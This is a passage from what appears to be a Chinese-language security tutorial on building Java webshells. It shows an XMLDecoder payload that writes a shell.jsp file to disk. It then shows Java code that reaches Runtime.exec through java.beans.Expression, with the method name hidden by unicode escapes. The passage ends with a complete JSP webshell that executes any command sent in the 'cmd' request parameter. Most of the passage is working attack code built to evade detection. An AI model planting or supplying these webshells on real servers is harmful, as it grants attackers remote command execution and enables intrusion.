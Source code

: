 ```
    &lt;/object&gt;
&lt;/java&gt;
```

```
&lt;?xml version="1.0" encoding="UTF-8"?&gt;
&lt;java&gt;
 &lt;object class="java.io.PrintWriter"&gt;
  &lt;string&gt;D:\shell.jsp&lt;/string&gt;
  &lt;void method="println"&gt;
  &lt;string&gt;
   webshell
 &lt;/string&gt;
  &lt;/void&gt;
  &lt;void method="close"/&gt;
 &lt;/object&gt;
&lt;/java&gt;
```

想了一下Expression类，底层是通过反射执行的，那我们能不能制作webshell？当然可以



## WebShell

### <a class="reference-link" name="Expression"></a>Expression

```
package shell.Expression;

import java.beans.Expression;

public class test `{`
    public static void main(String[] args) `{`
        String payload ="calc";
        Expression expression = new Expression(Runtime.getRuntime(),"\u0065"+"\u0078"+"\u0065"+"\u0063",new Object[]`{`payload`}`);
        try `{`
            expression.getValue();
        `}` catch (Exception e) `{`
            e.printStackTrace();
        `}`
    `}`
`}`
```

上面是java代码，执行的原理是反射在getValue方法中可以清楚的看到，要制作webshell就需要jsp代码。

```
&lt;%@ page import="java.beans.Expression"%&gt;
&lt;%@ page contentType="text/html; charset=UTF-8" language="java" %&gt;
&lt;%
    String payload =request.getParameter("cmd");
    Expression expression = new Expression(Runtime.getRuntime(),"\u0065"+"\u0078"+"\u0065"+"\u0063",new Object[]`{`payload`}`);
    expression.getValue();
%&gt;
```
